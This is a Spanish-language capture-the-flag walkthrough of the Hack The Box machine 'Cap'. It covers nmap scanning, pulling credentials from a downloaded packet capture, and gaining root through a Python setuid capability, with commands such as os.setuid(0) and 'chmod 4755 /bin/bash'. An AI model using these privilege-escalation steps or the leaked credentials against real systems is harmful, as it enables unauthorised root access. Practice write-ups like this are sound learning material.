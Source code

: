 ![imagen](https://user-images.githubusercontent.com/71317374/135714589-65382ded-013c-4b8a-962a-809113a2c459.png)

Cap es una máquina Linux de nivel fácil creada por [InfoSecJack](https://app.hackthebox.eu/users/52045). En ella hay que analizar unos paquetes con Wireshark y hacer uso de las [capabilities](https://www.incibe-cert.es/blog/linux-capabilities) para convertirnos en el grandioso root

Según la gente de Jak De Boxz, la máquina sería así:

![imagen](https://user-images.githubusercontent.com/71317374/135714734-01dba700-004e-4fb0-9e3b-151205a0b643.png)

Lo gracioso es que no hay que explotar ningún CVE.

1. [Reconocimiento inicial](#recon)
2. [Página web](#web)
3. [Analizando el .pcap con Wireshark](#pcap)
4. [Conseguimos root :D](#root)
# Reconocimiento inicial {#recon}

Como siempre, empezamos usando `nmap` para ver los puertos abiertos y conseguir posibles lugares por los que entrar.
```bash
# Nmap 7.92 scan initiated Sat Oct  2 13:52:07 2021 as: nmap -p- --open -sS --min-rate 4000 -n -vv -oN scan 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up, received echo-reply ttl 63 (0.40s latency).
Scanned at 2021-10-02 13:52:07 CEST for 26s
Not shown: 41525 closed tcp ports (reset), 24007 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 63
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Sat Oct  2 13:52:33 2021 -- 1 IP address (1 host up) scanned in 26.59 seconds
```

Hmm, puerto 21 abierto, podríamos intentar entrar como el usuario `anonymous`. De momento vamos a hacer un escaneo en profundidad...

```bash
# Nmap 7.92 scan initiated Sat Oct  2 13:54:06 2021 as: nmap -sCV -p21,22,80 -oN targeted 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.051s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-title: Security Dashboard
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sat, 02 Oct 2021 11:54:22 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 02 Oct 2021 11:54:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sat, 02 Oct 2021 11:54:17 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
<fingerprint muy larga>
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Oct  2 13:56:17 2021 -- 1 IP address (1 host up) scanned in 131.53 seconds
```
| Puerto 	| Servicio                           	|
|:--------	|:------------------------------------	|
| 21     	| FTP                                	|
| 22     	| SSH, para obtener una shell segura 	|
| 80     	| Gunicorn                           	|


# Página web {#web}
Entrar al FTP con las credenciales `anonymous: ` no funcionó, así que nos centraremos en la página web. Lo primero que nos encontramos al entrar es esto:

![imagen](https://user-images.githubusercontent.com/71317374/135715330-d77dc314-8f5b-49dc-9f95-ac130ca1adbb.png)

La Security Snapshot parece interesante, pinchamos y tenemos esto:

![imagen](https://user-images.githubusercontent.com/71317374/135715405-426ad6b1-c238-4d55-be90-2aaeecc76ee1.png)

Si le diéramos a Download, nos descargaría un archivo .pcap. También usa un número para identificar al archivo, así que tiene que haber un archivo 0, 1, etc.
Si probamos con el 0:

![imagen](https://user-images.githubusercontent.com/71317374/135715477-10ce33cb-c48e-46d0-98c0-2417e2c02f31.png)

Existe, así que lo descargamos y nos abrimos wireshark para ver si tuviera algo interesante, como unas credenciales.

# Analizando el .pcap con Wireshark {#pcap}

![imagen](https://user-images.githubusercontent.com/71317374/135715540-533be66c-d680-48b8-8eea-7ad67ea4130a.png)

Solamente al abrirlo hay algo interesante, un login en el FTP y unas credenciales :O, que serían `nathan:Buck3tH4TF0RM3!`, y tenemos un FTP y además un SSH abierto, igual las credenciales son válidas para ambos.
Si probamos a usarlas contra el SSH son válidas, así que estaríamos ya dentro y puedes recoger la user flag y llevártela a HTB para meterla por donde le quepa.

# Conseguimos root :D {#root}

Tras estar un rato enumerando, no saqué nada :/, hasta que encontré lo que eran las capabilities, una alternativa al SUID y al `sudo`: https://www.incibe-cert.es/blog/linux-capabilities(está también por arriba)
Para encontrar las capabilities de los archivos, hay que ejecutar el comando `getcap -r / 2>/dev/null`. la parte de 2>/dev/null es únicamente para enviar todos los errores al [/dev/null](https://linuxhint.com/what_is_dev_null/)

![imagen](https://user-images.githubusercontent.com/71317374/135716260-231d9332-d445-4156-ac37-562547482079.png)

Python con capability para cambiarte de usuario a voluntad, qué bien configurado...

```bash
nathan@cap:~$ python3.8
Python 3.8.5 (default, Jan 27 2021, 15:41:15)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system('whoami')
root
0
```

Y así te convertirías en root, para salir de python y usar una bash como root podrías ejecutar lo siguiente: `os.system("chmod 4755 /bin/bash")` para asignarle el privilegio SUID(SetUID) a la /bin/bash.
Entonces, si ahora ejecutas `bash -p` te conviertes en root y puedes recoger tu premio en la meta, /root.

Ha sido una máquina divertida, que explota algo que no se suele mirar, las capabilities, que no sabía qué eran xD.

Si te ha gustado dame una estrellita, un follow o algo en mi [github](github.com/binlaab), que no te cuesta nada, dale.
